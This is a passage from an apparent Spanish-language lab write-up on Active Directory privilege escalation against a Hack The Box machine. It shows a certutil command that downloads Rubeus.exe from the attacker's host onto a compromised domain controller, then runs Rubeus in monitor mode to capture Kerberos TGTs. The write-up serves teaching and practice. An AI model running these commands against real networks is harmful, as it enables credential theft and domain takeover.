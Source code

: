 
<h2 id="Rubeus">Capturando Ticket Granting Ticket (TGT) con Rubeus.exe y Dumpeando Secrets con secretsdump de Impacket para Escalar Privilegios</h2>

Ya escalamos privilegios en la **máquina AD2**, pero aún no hemos escalado privilegios en la **máquina AD1**, que es la que nos interesa.

El problema es que no podemos usar el **Hash NTLM** del **Administrador** de la **máquina AD2** para escalar privilegios, por lo que tenemos que buscar una forma diferente.

Recordemos que el **servicio MSSQL** está enlazado al **AD2**, que pensando un poco cómo funciona cuando hacemos la conexión, sería algo similar a lo siguiente:
* La **máquina AD1** (**DC01.darkzero.htb**) hace una petición al **AD2** (**DC02.darkzero.ext**), ya sea una simple consulta hasta una conexión directa para obtener una sesión.
* Para que la conexión suceda, el **AD1** necesita autenticarse al **AD2**, así que, si utilizan el **servicio Kerberos** para autenticarse, se tramita un **TGT**.
* El **KDC** asigna y da el **TGT** al **AD1**, lo que permite la consulta o conexión al **AD2**.
* Es en este momento donde **Rubeus.exe** (en modo monitor) captura el **TGT** del **AD1** desde el **AD2**, pues el **AD2** lo solicita para el servicio solicitado y lo guarda localmente.

 y es aquí donde podríamos encontrar un **TGT** del **AD1**.

Para que podamos capturar ese **TGT**, podemos utilizar la herramienta **Rubeus.exe**, que puedes descargar en el siguiente link:
* <a href="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" target="_blank">Repositorio de r3motecontrol: Ghostpack-CompiledBinaries</a>

Para que funcione **Rubeus.exe**, necesita usarse con un usuario con privilegios de **Administrador**, así que la usaremos en nuestra sesión del **AD2**.

Carga **Rubeus.exe** al **AD2**:
```bash
C:\Temp> certutil.exe -urlcache -split -f http://Tu_IP/Rubeus.exe Rubeus.exe        
****  Online  ****
  000000  ...
  06d200
CertUtil: -URLCache command completed successfully.
```

Activa **Rubeus.exe** en **modo monitor** para que capture un **TGT**:
```bash
C:\Temp> rubeus.exe monitor /interval:1 /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs
```
